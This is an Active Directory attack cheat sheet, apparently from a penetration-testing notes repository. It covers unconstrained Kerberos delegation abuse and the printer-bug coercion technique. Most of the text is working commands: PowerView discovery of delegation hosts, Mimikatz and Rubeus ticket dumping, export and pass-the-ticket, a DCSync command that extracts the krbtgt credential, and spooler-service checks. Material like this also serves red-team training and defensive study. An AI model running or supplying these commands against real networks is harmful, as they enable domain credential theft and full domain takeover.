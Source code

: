 #### Discover domain computers which have unconstrained delegation
- Domain Controllers always show up, ignore them
- Use the ```-domain``` flag to check for other domain
```
Get-DomainComputer -UnConstrained
Get-DomainComputer -UnConstrained | select samaccountname
```

#### Check if any DA tokens are available on the unconstrained machine
- Wait for a domain admin to login while checking for tokens
```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

#### Export the TGT ticket
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

```
.\Rubeus.exe monitor /interval:5
```

#### Reuse the TGT ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'
```

```
# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine:
.\Rubeus.exe ptt /ticket:<TICKET FILE>
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Printer bug
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
- A way to force a TGT of DC on the target machine
- https://github.com/leechristensen/SpoolSample
#### Check if spool server is running
```
#Edit IP at the bottom
spoolerscan.ps1
```

```
ls \\<DC>\pipe\spoolss
```
